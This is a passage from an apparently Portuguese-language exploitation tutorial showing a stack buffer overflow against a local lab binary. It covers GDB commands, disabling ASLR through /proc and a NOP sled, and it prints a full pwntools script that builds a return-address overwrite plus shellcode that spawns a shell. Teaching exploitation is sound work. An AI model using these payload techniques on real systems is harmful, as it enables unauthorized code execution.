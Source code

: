 Se formos para o gdb e executarmos o programa com nosso arquivo de payload como argumento:

```text
run $(cat exploit.txt)
```

Podemos ver que ele abrirá uma shell `sh`.

Porém, uma shell no GDB não pode te dar permissões a mais e será uma execução local, então temos que ver se o exploit funciona também no programa de verdade.

Se tentarmos executar no programa original:

```text
./shellcode $(cat exploit.txt)
```

Muito provavelmente irá causar um segmentation fault sem abrir a shell. Um motivo disso é que as variáveis de ambiente dentro e fora do GDB são diferentes e por isso, a stack não estará exatamente no mesmo lugar. Outro motivo é que o ASLR provavelmente deve estar habilitado na máquina. Veremos mais para frente, mas em resumo, por causa do ASLR, a stack pode ser colocada em um lugar diferente a cada execução.

Há diversas formas de contornar isso. Podemos desabilitar o ASLR usando `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` e usar uma ferramenta chamada NOP sled.

NOP é uma instrução que não faz nada e em binário, ela é equivalente ao byte 0x90. Quando você junta vários desses NOPs, você forma um NOP sled. Esse NOP sled pode ser colocado antes do shellcode para que ele vá executando esse "nada" até chegar ao shellcode, permitindo assim uma maior margem de erro.

Vamos desabilitar o ASLR e adicionar um NOP sled de 1000 bytes ao nosso exploit. Para isso, teremos que pegar o novo endereço da stack, baseado em um argumento de 64+1000 bytes. Então abrimos o GDB e executamos novamente os seguintes comandos:

```text
break main
run $(python3 -c "print('A' * 1064)")
print $esp+0x4
```

Agora com o novo endereço, que nesse exemplo é 0xffffcf90, modificamos nosso script em Python para o novo endereço e colocamos um NOP sled de 1000 bytes logo antes do shellcode. Também usaremos o endereço que pegamos somado com aproximadamente metade do NOP sled, para caso o começo do NOP sled no GDB esteja antes do começo do NOP sled na stack real. Caso não esteja, ainda é muito provável que mesmo somando metade, ainda acertaremos o NOP sled.

```text
#!/usr/bin/env python3

from pwn import *

# Faz o buffer overflow
payload = b'A' * 16              # Padding
payload += p32(0xffffcf90+0x200) # Endereço de retorno + aproximadamente metade do NOP sled

# Adiciona o shellcode
context.arch = 'i386'            # Arquitetura i386
context.bits = 32                # 32-bits
payload += b'\x90' * 1000        # Adiciona o NOP sled
payload += asm(shellcraft.sh())  # Concatena o shellcode

# Escreve em um arquivo
f = open('exploit.txt', 'wb')    # Abre um arquivo para escrita
f.write(payload)                 # Escreve o payload nesse arquivo
f.close()                        # Fecha o arquivo
```
